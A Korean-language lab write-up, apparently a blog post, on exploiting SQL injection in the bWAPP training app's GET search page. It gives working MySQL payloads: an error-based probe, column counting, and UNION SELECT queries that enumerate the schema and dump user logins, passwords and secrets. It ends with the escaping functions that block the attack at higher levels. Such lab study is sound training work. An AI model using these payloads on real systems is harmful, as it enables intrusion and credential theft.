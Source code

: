```yaml
---
layout: single
title: (bWAPP)SQL Injection GET/Search
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image.png)
- 검색 기능이 존재하며, GET 방식으로 전송된다.
- ‘ (싱글쿼터) 입력을 통해 Error 유/무를 체크해보았다.

![그림 1-2](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image2.png)
- Error 가 발생되며 DBMS Error 가 페이지상에 노출되고 있다.
- MySQL 로 확인된다.

![그림 1-3](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image3.png)
- 연결 연산자를 통해 추가 확인을 했다.
- DBMS Error 가 노출되고 있으니 Error Based 공격을 수행했다.

```sql
' and updatexml(null,concat(0x3a,(select database())),null) and '%%'='%
```

> Bee-Box 에서는 updatexml 함수는 사용이 되지 않는다. (다른 환경에선는 정상 작동 함)

- 해당 Bee Box 에서는 Error Based 가 불가능 한 것으로 판단
- Union Based 공격을 수행

![그림 1-4](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image4.png)

- order by 7 결과 정상적인 출력 확인
- order by 8 결과 Error 발생 확인
- 총 컬럼의 개수는 7개로 확인됨

![그림 1-5](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image5.png)

```sql
%' union select 1,2,3,4,5,6,7--
```

- 출력 결과의 하단을 보게 되면, union select 결과로 2,3,5,4 총 4개의 출력 구간을 확인
- 출력 포지션을 확인 하였으니, 순차적으로 레코드를 출력 하였다.

```sql
'union select 1,schema_name,3,4,5,6,7 from information_schema.schemata--
```

```sql
'union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema='bWAPP'--
```

```sql
'union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_schema='bWAPP' and table_name='users'--
```

![그림 1-6](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image6.png)

- 컬럼의 종류를 확인하였으니, 이제 확인 하고자 하는 컬럼의 데이터를 최종적으로 추출함.

```sql
'union select 1,concat(id,0x3a,login),concat(password,0x3a,secret),4,admin,6,7 from bWAPP.users-- 
```

![그림 1-7](/assets/image/bwapp/injection/sqli-get-archive/sqli-get/image7.png)
- 성공 적으로 Data를 획득 헀다.

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.